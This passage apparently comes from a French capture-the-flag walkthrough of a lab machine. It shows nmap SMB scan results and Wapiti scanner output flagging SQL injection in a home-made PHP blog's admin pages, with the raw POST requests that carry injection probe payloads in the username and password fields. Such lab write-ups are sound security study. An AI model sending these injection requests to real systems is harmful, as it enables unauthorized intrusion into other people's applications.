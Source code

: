 ```
|   FQDN: localhost.localdomain
|_  System time: 2014-04-13T07:04:38+02:00
| smb-security-mode: 
|   Account that was used for smb scripts: guest
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Sur le port 80 utilisé par Apache on trouve une application de blog PHP-powered faite maison.  

On lance *Wapiti* dessus qui trouve immédiatement des failles SQL dans la page l'authentification et celle de modification du profil (toutes les pages en fait) :  

```
Injection MySQL dans http://192.168.1.95/admin/post.php via une injection dans le paramètre username
Evil request:
POST /admin/post.php HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/admin/post.php
Content-Type: application/x-www-form-urlencoded

month=on&date=13&year=on&username=%BF%27%22%28&password=letmein&time=07%3A08&title=default&entry=on&submit=Submit

Injection MySQL dans http://192.168.1.95/admin/post.php via une injection dans le paramètre password
Evil request:
POST /admin/post.php HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/admin/post.php
Content-Type: application/x-www-form-urlencoded

month=on&date=13&year=on&username=default&password=%BF%27%22%28&time=07%3A08&title=default&entry=on&submit=Submit

Injection MySQL dans http://192.168.1.95/admin/profile.php via une injection dans le paramètre username
Evil request:
POST /admin/profile.php HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/admin/profile.php
Content-Type: application/x-www-form-urlencoded

username=%BF%27%22%28&password=letmein&sig=on&fname=sig.txt&submit=Submit

Injection MySQL dans http://192.168.1.95/admin/profile.php via une injection dans le paramètre password
Evil request:
POST /admin/profile.php HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/admin/profile.php
Content-Type: application/x-www-form-urlencoded

username=default&password=%BF%27%22%28&sig=on&fname=sig.txt&submit=Submit
```
